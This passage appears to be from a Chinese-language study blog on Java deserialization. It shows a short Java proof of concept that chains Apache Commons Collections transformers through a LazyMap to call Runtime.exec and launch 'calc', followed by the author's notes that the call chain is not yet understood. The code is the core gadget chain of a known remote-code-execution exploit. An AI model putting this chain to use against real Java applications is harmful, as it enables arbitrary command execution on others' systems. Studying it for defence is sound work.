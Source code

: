 	import javax.xml.crypto.dsig.Transform;
	import java.io.IOException;
	import java.util.HashMap;
	import java.util.Map;
	
	public class cusCC {
	    public static void main(String[] args) throws NoSuchMethodException,IllegalAccessException, IOException,ClassNotFoundException{
	        Transformer[] transforms=new Transformer[]{
	                new ConstantTransformer(Runtime.class),
	                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
	                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
	                new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"})
	        };
	        Transformer transformChain = new ChainedTransformer(transforms);
	        Map innermap = new HashMap();
	        Map lazyMap = LazyMap.decorate(innermap,transformChain);
	        lazyMap.get("");
	
	    }
	}

执行结果

![](https://1024861435.github.io/assets/img/JAVA反序列化16.png)

### 今日总结

对于昨天的学习有多加了一个代码演示分析，对与反序列化有进一步了解
初步了解了java的反射，并对一些代码进行的分析。不过对于cusCC.java的代码的调用链的分析还是不懂
明天对cusCC.java的调用链进行深刻分析，并深入学习
